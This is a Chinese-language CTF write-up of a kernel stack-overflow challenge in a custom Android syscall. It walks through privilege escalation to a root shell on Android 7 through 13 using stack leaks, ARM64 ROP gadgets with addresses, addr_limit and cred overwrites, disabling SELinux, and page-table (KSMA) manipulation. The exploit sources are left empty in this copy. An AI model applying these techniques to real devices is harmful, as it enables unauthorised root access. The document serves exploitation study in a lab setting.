

GeekCon AVSS 2023 Qualifier - kStackOverflow

附件：KV1.tar.gz
漏洞分析
说明文档中指出了漏洞点，在新创建的601号系统调用中，stackof_write() 和 stackof_read() 中使用了未检查的用户态参数 len，在拷贝内容时产生了越界读和越界写。
1 | noinline long my_cfu(char *buffer, char __user * addr, unsigned long len) { |
漏洞利用
利用 stackof_read() 函数的越界读，可以泄露任意长度的内核栈信息到用户态
利用 stackof_write() 函数的越界写，可以写任意长度的信息到内核栈中
android 7
内核版本：linux 3.10.0
利用思路：
- 通过 stackof_read() 泄露内核栈地址（高地址）
- 通过 stackof_write() 将gadget布置到内核栈中，同时覆盖栈中的返回地址达成控制流劫持
- 系统开启PXN，无法ret2usr。所以利用rop将栈迁移到有gadget的栈空间（低地址）
- 继续rop，执行commit_creds(&init_cred) ，将 selinux_enforcing 处设置成0以关闭selinux
- 再次利用rop栈迁移，使上下文跟控制流劫持之前相同（x29，x30和sp），于是可成功返回用户态
- 在用户态拿root shell
过程简记：
首先，用stackof_write 成功控制返回地址，计算返回地址距离输入起始位置偏移0x108字节

系统开启PXN，无法直接ret2usr。但可以访问用户态数据，考虑两种方法：
- rop改 addr_limit
- rop执行 commit_cred(init_cred) 。【只能栈迁移到内核栈】
为了回用户态后的操作简单点，选了第二种方式。
要rop，就得栈迁移。
既然要栈迁移，那么要保证迁移前后，sp和x29以及x30都是正常的状态，这样回到栈迁移的点就能正常返回到用户态。如下：
在控制流劫持的点，原本应该ret 到 0xffffffc0000c3248， 栈地址是通过read泄露出来的偏移 0x100 的8个字节内容 。

所以，先将栈迁移到栈的低地址，执行完目标功能后，再设置好x29和x30的值，让其正常返回用户态。
找到四条gadget，可以完成两次栈迁移，并顺利返回用户态：
1 | unsigned long gadget1 = 0xffffffc00009fc68; // : sub sp, x29, #0x10 ; mov w0, #0 ; ldp x29, x30, [sp, #0x10] ; add sp, sp, #0x20 ; ret |
本地 root shell

exp如下：
1 |
|
android 8
内核版本：linux 3.18.94
整体利用思路跟android 7一样，只不过这里没找到合适gadget，所以不再在内核中执行commit_creds()，而是先改addr_limit，然后回用户态通过pipe任意内核读写完成提权。
利用思路：
- 通过 stackof_read() 泄露内核栈地址（高地址）
- 通过 stackof_write() 将gadget布置到内核栈中，同时覆盖栈中的返回地址达成控制流劫持
- 系统开启PXN，无法ret2usr。所以利用rop将栈迁移到有gadget的栈空间（低地址）
- 继续rop，执行一次任意地址写，将addr_limit写成X2中存储的一个很大的值
- 再次利用rop栈迁移，使上下文跟控制流劫持之前相同（x29，x30和sp），于是可成功返回用户态
- 在用户态通过pipe任意内核地址读写，改掉当前进程的cred，关闭selinux
- 在用户态拿root shell
利用控制流劫持点，寄存器中的内容，降低rop gadget的复杂度：
- x2的值是一个很大的值0xffffffffffffffd0，写addr_limit绰绰有余
- x9 x10 x11等寄存器中的内容是用户态可控的

找的四条gadget如下，在内核态完成了一次任意地址写（将 thread_info->addr_limit 写成了X2的值0xffffffffffffffd0）
1 | unsigned long gadget1 = 0xffffffc0000a24e8; // : sub sp, x29, #0x10 ; mov w0, #0 ; ldp x29, x30, [sp, #0x10] ; add sp, sp, #0x20 ; ret |
写完addr_limit 后，返回用户态。先关闭selinux。再利用泄露的sp地址，计算 thread_info->task 并读出task地址。再根据task中 task_struct->cred 的偏移，读出cred所在地址。最后写cred，完成提权。
本地 root shell：

exp如下：
1 |
|
android 9
内核版本：linux 3.18.94
利用思路跟android8完全一致，重新找了如下gadget：
1 | unsigned long gadget1 = 0xffffffc0000a20f8; // : sub sp, x29, #0x10 ; mov w0, #0 ; ldp x29, x30, [sp, #0x10] ; add sp, sp, #0x20 ; ret |
本地 root shell

exp如下：
1 |
|
android 10
内核版本：linux 4.14.175
1 | generic_arm64:/ # cat /proc/iomem |
这个版本跟上一个版本相比，栈中多了cookie，函数返回时多了对cookie的检查。但cookie是固定值，可通过stackof_read() 泄露出来。
所以，使用 stackof_write() 写返回地址时，提前将cookie布置好。rop完成一次任意地址写（不能动 X8 X9 X28三个寄存器），然后修复 x29 x30 sp，回到用户态。
任意地址写直接使用KSMA方法改页表，重新映射整个内核镜像为用户态可读写，使用户态可以任意改写内核代码段和数据段。
三条gadget：
1 | unsigned long gadget1 = 0xffffff8008464a0c; // : sub sp, x29, #0x10 ; ldp x29, x30, [sp, #0x10] ; ldp x20, x19, [sp], #0x20 ; ret |
本地root shell：

exp如下：
1 |
|
android 11
内核版本： linux 5.4.50
比赛期间这个题没继续往后做，以为shadow stack无法绕过（x18寄存器）。但赛后看别人做出来了，于是自己也想尝试一下，发现其实还是可以解的。
任意地址写
在有shadow stack的情况下，虽然无法直接通过栈溢出写返回地址来控制流劫持，但还可以考虑这两个方向：
- 返回过程中是否有函数指针？
- 返回过程中是否有可控的地址写？如STR,STP配合可控寄存器。
对于本题：
跟踪返回的流程，唯一的一个函数指针，用于调用_arm64_sys_stackof 函数了。返回时不会再执行。
跟踪返回流程，发现 0xFFFFFFC010209F7C 处会将 copy_from_user 函数的返回值存放到 x19 寄存器指向的内存处。而x19是上一个函数从栈上取出的，由于我们有超强的栈溢出能力，所以覆写x19对应的位置，就能达到任意地址写——copy_from_user的返回值。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22_arm64_sys_stackof
.kernel:FFFFFFC010257824 BL sys_stackof_handler
.kernel:FFFFFFC010257828 ADRP X9, #__stack_chk_guard@PAGE
.kernel:FFFFFFC01025782C LDUR X8, [X29,#var_8]
.kernel:FFFFFFC010257830 LDR X9, [X9,#__stack_chk_guard@PAGEOFF]
.kernel:FFFFFFC010257834 CMP X9, X8
.kernel:FFFFFFC010257838 B.NE loc_FFFFFFC010257854
.kernel:FFFFFFC01025783C ADD SP, SP, #0x810
.kernel:FFFFFFC010257840 LDP X20, X19, [SP,#var_s20]
.kernel:FFFFFFC010257844 LDP X28, X21, [SP,#var_s10]
.kernel:FFFFFFC010257848 LDP X29, X30, [SP+var_s0],#0x30
.kernel:FFFFFFC01025784C LDR X30, [X18,#-8]!
.kernel:FFFFFFC010257850 RET
# /* RET到0xFFFFFFC010209F58*/
el0_svc_common
.kernel:FFFFFFC010209F54 BLR X20
.kernel:FFFFFFC010209F58 B loc_FFFFFFC010209F7C
.kernel:FFFFFFC010209F7C loc_FFFFFFC010209F7C ; CODE XREF: el0_svc_common+BC↑j
.kernel:FFFFFFC010209F7C ; el0_svc_common+D8↑j
.kernel:FFFFFFC010209F7C STR X0, [X19]
# /* x19可控，x0是0，往任意地址写0？*/copy_from_user的返回值构造花费了一些时间，返回值表示未成功拷贝的字节数，并且会将目标地址未成功拷贝的区域设置成0。幸好栈中黄框位置设置成全0时不影响程序流的执行。

写一级页表对应虚拟地址（X）
直接写 (swapper_pg_dir+264*8) 区域会报错，”unable to handle kernel write to read-only memory at virtual address ffffffc0117e6840”。应该是为了安全考虑将该区域映射成只读的了。
那么还有线性映射区可以考虑，经过测试得到本环境中线性映射区的起始地址是 0xffffff8000000000 。目标页表项对应的虚拟地址：
1 | >>> hex(0xFFFFFFC0117E6000-0xFFFFFFC010080000) |
但是写线性映射区时也是同样的错，”Unable to handle kernel write to read-only memory at virtual address ffffff80017e6840”。
写一级页表虚拟地址对应页表项（✔）
页面不可写，应该是页表项中设置其权限为只读了。于是往上一层考虑，去改这read-only区域对应的页表项，能否改成读写。
1 | x/20gx 0xffffff80017e6840 |
所以需要利用 FFFFFFC010209F7C STR X0, [X19] 构造4次任意地址写，将 0xffffff806fbf7f30 的值覆盖成 0x417e6753 。
本地root shell：

exp：
1 |
|
android 12
内核版本： linux 5.10.160
1 | # cat /proc/iomem |
利用方法同android 11，所以要将 0xffffffc200000000 对应的一级页表项设置成 d_block，让用户态可以任意读写内核image。
该一级页表项对应两处虚拟地址
一处是在 swapper_pg_dir 中的偏移
1
2gef➤ x/2gx 0xFFFFFFC00A466000+0x840
0xffffffc00a466840 <swapper_pg_dir+2112>: 0x00680081c0000701 0x0068008200000701一处是在线性映射区中的偏移
1
2
3
4
5
6
7
8
9
10
11
12
13# 偏移
>>> hex(0xffffffc00a466840-0xFFFFFFC008000000 + 0x200000)
'0x2666840'
# 线性映射区在0xFFFFFF8000000000
# 对应页表项也映射到了虚拟地址 0xffffff8002666840 处
gef➤ x/2gx 0xFFFFFF8000000000+0x2666840
0xffffff8002666840: 0x00680081c0000701 0x0068008200000701
40000000-bfffffff : System RAM
40200000-4266ffff : Kernel code
42670000-4296ffff : reserved
42970000-42c6ffff : Kernel data通过线性映射区可以接着调试查看二级页表，三级页表。由于 0xffffff8002666840 处是只读的，我们考虑将 0xffffff8002666000 对应的页表项设置成用户态和内核态可读写的状态，这样就可以在用户态写一级页表了。
0xffffff8002666000 地址对应的物理页表项
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
550xffffff8002666000
11111111 11111111 11111111 10000000 00000010 01100110 01100000 00000000
0级页表未使用
1级页表偏移：0000000 00 - 0*8
2级页表偏移：000010 011 - 19*8=0x98
3级页表偏移：00110 0110 - 102*8=0x330
gef➤ x/20gx 0xFFFFFF8000000000+0x2666840
0xffffff8002666840: 0x00680081c0000701 0x0068008200000701
0xffffff8002666850: 0x0068008240000701 0x0068008280000701
0xffffff8002666860: 0x00680082c0000701 0x0068008300000701
0xffffff8002666870: 0x0068008340000701 0x0068008380000701
0xffffff8002666880: 0x00680083c0000701 0x0000000000000000
0xffffff8002666890: 0x0000000000000000 0x0000000000000000
0xffffff80026668a0: 0x0000000000000000 0x0000000000000000
0xffffff80026668b0: 0x0000000000000000 0x0000000000000000
0xffffff80026668c0: 0x0000000000000000 0x0000000000000000
0xffffff80026668d0: 0x0000000000000000 0x0000000000000000
gef➤ x/20gx 0xFFFFFF8000000000+0x2666000
0xffffff8002666000: 0x00000000bfffa003 0x00000000bfe0b003
0xffffff8002666010: 0x0000000000000000 0x0000000000000000
0xffffff8002666020: 0x0000000000000000 0x0000000000000000
0xffffff8002666030: 0x0000000000000000 0x0000000000000000
0xffffff8002666040: 0x0000000000000000 0x0000000000000000
0xffffff8002666050: 0x0000000000000000 0x0000000000000000
0xffffff8002666060: 0x0000000000000000 0x0000000000000000
0xffffff8002666070: 0x0000000000000000 0x0000000000000000
0xffffff8002666080: 0x0000000000000000 0x0000000000000000
0xffffff8002666090: 0x0000000000000000 0x0000000000000000
gef➤ x/20gx 0xFFFFFF8000000000+(0xbfffa000-0x40000000)+0x98
0xffffff807fffa098: 0x00000000bfff8003 0x00000000bfff7003
0xffffff807fffa0a8: 0x00000000bfff6003 0x00000000bfff5003
0xffffff807fffa0b8: 0x00000000bfff4003 0x00000000bfff3003
0xffffff807fffa0c8: 0x00000000bfff2003 0x00000000bfff1003
0xffffff807fffa0d8: 0x00000000bfff0003 0x00000000bffef003
0xffffff807fffa0e8: 0x00000000bffee003 0x00000000bffed003
0xffffff807fffa0f8: 0x00000000bffec003 0x00000000bffeb003
0xffffff807fffa108: 0x00000000bffea003 0x00000000bffe9003
0xffffff807fffa118: 0x00000000bffe8003 0x00000000bffe7003
0xffffff807fffa128: 0x00000000bffe6003 0x00000000bffe5003
gef➤ x/20gx 0xFFFFFF8000000000+(0xbfff8000-0x40000000)+0x330
0xffffff807fff8330: 0x0060000042666783 0x0060000042667783
0xffffff807fff8340: 0x0060000042668783 0x0060000042669783
0xffffff807fff8350: 0x006000004266a783 0x006000004266b783
0xffffff807fff8360: 0x006000004266c783 0x006000004266d783
0xffffff807fff8370: 0x006000004266e783 0x006000004266f783
0xffffff807fff8380: 0x0068000042670707 0x0068000042671707
0xffffff807fff8390: 0x0068000042672707 0x0068000042673707
0xffffff807fff83a0: 0x0068000042674707 0x0068000042675707
0xffffff807fff83b0: 0x0068000042676707 0x0068000042677707
0xffffff807fff83c0: 0x0068000042678707 0x0068000042679707
# 0xffffff807fff8330 处就是 0xffffff8002666000 虚拟地址对应的页表项
# 0x783：0111 1000 0011 - bit[7:6]表示仅内核态可读
# 0x743：0111 0100 0011 - bit[7:6]表示用户态和内核态可读写写物理页表项
将虚拟地址 0xffffff807fff8330 处写成 0x0060000042666743 ，使 0xffffff8002666000 这个页面用户态可读写，那么就能将我们精心构造的d_block写入 0xffffff8002666840 中，从而达到任意读写内核image的目的了。
本地 root shell

exp如下：
1 | // test2.c |
android 13
内核版本：linux 5.15.78
1 | # cat /proc/iomem |
利用方法同android 11/12，将 0xffffffc200000000 对应的一级页表项设置成 d_block，让用户态可以任意读写内核image。
该一级页表项对应两处地址
一处是在 swapper_pg_dir 中的偏移
1
2gef➤ x/2gx 0xFFFFFFC00A79F000+0x840
0xffffffc00a79f840 <swapper_pg_dir+2112>: 0x00680081c0000701 0x0068008200000701一处是在线性映射区中的偏移
1
2
3
4
5
6
7
8
9
10
11
12
13# 偏移
>>> hex(0xffffffc00a79f840 - 0xFFFFFFC008010000+ 0x210000)
'0x299f840'
# 线性映射区在0xFFFFFF8000000000
# 对应页表项也映射到了虚拟地址 0xffffff800299f840 处
gef➤ x/2gx 0xFFFFFF8000000000+0x299f840
0xffffff800299f840: 0x00680081c0000701 0x0068008200000701
40000000-bfffffff : System RAM
40210000-4299ffff : Kernel code # 从image的_stext开始映射，对应虚拟地址0xFFFFFFC008010000
429a0000-42bfffff : reserved
42c00000-42eeffff : Kernel data通过线性映射区可以接着调试查看二级页表，三级页表。由于 0xffffff800299f840处是只读的，我们考虑将 0xffffff800299f000对应的页表项设置成用户态和内核态可读写的状态，这样就可以在用户态写一级页表了。
0xffffff800299f000地址对应的物理页表项
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
670xffffff800299f000
11111111 11111111 11111111 10000000 00000010 10011001 11110000 00000000
0级页表未使用
1级页表偏移：0000000 00 - 0*8
2级页表偏移：000010 100 - 20*8=0xa0
3级页表偏移：11001 1111 - 415*8=0xcf8
gef➤ x/20gx 0xFFFFFF8000000000+0x299f840
0xffffff800299f840: 0x00680081c0000701 0x0068008200000701
0xffffff800299f850: 0x0068008240000701 0x0068008280000701
0xffffff800299f860: 0x00680082c0000701 0x0068008300000701
0xffffff800299f870: 0x0068008340000701 0x0068008380000701
0xffffff800299f880: 0x00680083c0000701 0x0000000000000000
0xffffff800299f890: 0x0000000000000000 0x0000000000000000
0xffffff800299f8a0: 0x0000000000000000 0x0000000000000000
0xffffff800299f8b0: 0x0000000000000000 0x0000000000000000
0xffffff800299f8c0: 0x0000000000000000 0x0000000000000000
0xffffff800299f8d0: 0x0000000000000000 0x0000000000000000
gef➤ x/20gx 0xFFFFFF8000000000+0x299f000
0xffffff800299f000: 0x18000000bfff9003 0x18000000bfe0a003
0xffffff800299f010: 0x0000000000000000 0x0000000000000000
0xffffff800299f020: 0x0000000000000000 0x0000000000000000
0xffffff800299f030: 0x0000000000000000 0x0000000000000000
0xffffff800299f040: 0x0000000000000000 0x0000000000000000
0xffffff800299f050: 0x0000000000000000 0x0000000000000000
0xffffff800299f060: 0x0000000000000000 0x0000000000000000
0xffffff800299f070: 0x0000000000000000 0x0000000000000000
0xffffff800299f080: 0x0000000000000000 0x0000000000000000
0xffffff800299f090: 0x0000000000000000 0x0000000000000000
gef➤ x/20gx 0xFFFFFF8000000000+(0xbfff9000-0x40000000)+0xa0
0xffffff807fff90a0: 0x18000000bfff6003 0x18000000bfff5003
0xffffff807fff90b0: 0x18000000bfff4003 0x18000000bfff3003
0xffffff807fff90c0: 0x18000000bfff2003 0x18000000bfff1003
0xffffff807fff90d0: 0x18000000bfff0003 0x18000000bffef003
0xffffff807fff90e0: 0x18000000bffee003 0x18000000bffed003
0xffffff807fff90f0: 0x18000000bffec003 0x18000000bffeb003
0xffffff807fff9100: 0x18000000bffea003 0x18000000bffe9003
0xffffff807fff9110: 0x18000000bffe8003 0x18000000bffe7003
0xffffff807fff9120: 0x18000000bffe6003 0x18000000bffe5003
0xffffff807fff9130: 0x18000000bffe4003 0x18000000bffe3003
gef➤ x/20gx 0xFFFFFF8000000000+(0xbfff6000-0x40000000)+0xcf8
0xffffff807fff6cf8: 0x006000004299f783 0x00680000429a0707
0xffffff807fff6d08: 0x00680000429a1707 0x00680000429a2707
0xffffff807fff6d18: 0x00680000429a3707 0x00680000429a4707
0xffffff807fff6d28: 0x00680000429a5707 0x00680000429a6707
0xffffff807fff6d38: 0x00680000429a7707 0x00680000429a8707
0xffffff807fff6d48: 0x00680000429a9707 0x00680000429aa707
0xffffff807fff6d58: 0x00680000429ab707 0x00680000429ac707
0xffffff807fff6d68: 0x00680000429ad707 0x00680000429ae707
0xffffff807fff6d78: 0x00680000429af707 0x00680000429b0707
0xffffff807fff6d88: 0x00680000429b1707 0x00680000429b2707
# 0xffffff807fff6cf8 处就是 0xffffff800299f000 虚拟地址对应的页表项
# 0x783：0111 1000 0011 - bit[7:6]表示仅内核态可读
# 0x743：0111 0100 0011 - bit[7:6]表示用户态和内核态可读写
gef➤ monitor xp /20gx 0x4299f000
000000004299f000: 0x18000000bfff9003 0x18000000bfe0a003
000000004299f010: 0x0000000000000000 0x0000000000000000
000000004299f020: 0x0000000000000000 0x0000000000000000
000000004299f030: 0x0000000000000000 0x0000000000000000
000000004299f040: 0x0000000000000000 0x0000000000000000
000000004299f050: 0x0000000000000000 0x0000000000000000
000000004299f060: 0x0000000000000000 0x0000000000000000
000000004299f070: 0x0000000000000000 0x0000000000000000
000000004299f080: 0x0000000000000000 0x0000000000000000
000000004299f090: 0x0000000000000000 0x0000000000000000写物理页表项
将虚拟地址 0xffffff807fff6cf8 处写成 0x006000004299f743 ，使 0xffffff800299f000 这个页面用户态可读写，那么就能将我们精心构造的d_block写入 0xffffff800299f840 中，从而达到任意读写内核image的目的了。
本地root shell

exp 如下：
1 |
|